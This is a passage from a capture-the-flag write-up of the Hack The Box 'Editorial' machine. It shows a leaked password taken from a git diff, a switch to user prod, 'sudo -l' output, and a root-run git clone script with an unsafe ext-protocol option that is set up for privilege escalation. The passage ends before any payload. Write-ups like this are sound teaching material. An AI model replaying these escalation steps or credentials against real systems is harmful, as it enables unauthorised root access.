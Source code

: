 Cool, we found another password, one seemingly powerful enough to be used in production:

![htb_editorial_diff.png](../assets/editorial_assets/htb_editorial_diff.png)

`080217_Producti0n_2023!@`

Let's use this to switch users to user prod:

```
dev@editorial:~/apps$ whoami
dev
dev@editorial:~/apps$ cd /home
dev@editorial:/home$ ls
dev  prod
dev@editorial:/home$ cd prod
-bash: cd: prod: Permission denied
dev@editorial:/home$ su prod
Password: 
prod@editorial:/home$ whoami
prod
```

We can now run `sudo -l` to see what user prod can run with elevated permissions:

```
prod@editorial:/home$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Wildcards being used with `sudo` are almost always interesting.

Looking at the script:

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

